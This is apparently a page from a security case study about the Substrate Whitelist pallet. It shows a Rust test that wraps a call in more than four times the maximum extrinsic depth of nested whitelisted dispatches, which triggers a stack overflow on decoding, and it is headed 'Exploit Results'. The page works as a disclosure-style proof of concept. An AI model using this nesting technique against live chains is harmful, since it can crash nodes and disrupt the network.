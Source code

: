 ```rust [0|5-8|14-20|22-31|37-47]
		// The amount of nested calls to create
		// This test will not crash as it the following value is less than minimum
		// amount of calls to cause a stack overflow
		let nested_calls = sp_api::MAX_EXTRINSIC_DEPTH;

		// The following line to get a stack overflow error on decoding (pallet)
		let nested_calls = nested_calls*4;

		// Create the nested calls
		for _ in 0..=nested_calls {
			call = RuntimeCall::Whitelist(crate::Call::dispatch_whitelisted_call_with_preimage {
				call: Box::new(call.clone()),
			});
			call_weight = call.get_dispatch_info().weight;
			encoded_call = call.encode();
			call_encoded_len = encoded_call.len() as u32;
			call_hash = <Test as frame_system::Config>::Hashing::hash(&encoded_call[..]);
		}

		// Whitelist the call to being able to dispatch it
		assert_ok!(Preimage::note(encoded_call.into()));
		assert_ok!(Whitelist::whitelist_call(RuntimeOrigin::root(), call_hash));

		// Send the call to be dispatched
		// This will throw a stack overflow if the nested calls is too high
		println!("Dispatching with {} nested calls", nested_calls);
		assert_ok!(
			Whitelist::dispatch_whitelisted_call(
				RuntimeOrigin::root(),
				call_hash,
				call_encoded_len,
				call_weight
			),
		);
	});
}
```

</div>


----

### Case Study - Whitelist Pallet - Exploit Results
